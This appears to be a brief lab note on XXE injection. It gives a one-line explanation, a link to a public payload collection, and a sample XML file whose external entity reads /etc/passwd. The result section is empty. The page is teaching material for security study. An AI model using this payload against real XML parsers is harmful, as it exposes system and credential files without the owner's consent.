


While parsing XML, if XML is not properly filtered out it can be used to inject other XML entities and get access of files or sometimes even remote code execution.

***Payloads:** https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection*

# Lab


**XML File with injected payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">]>
<creds><user>&file;</user><password>weakpassword</password></creds>
```

**Result:**

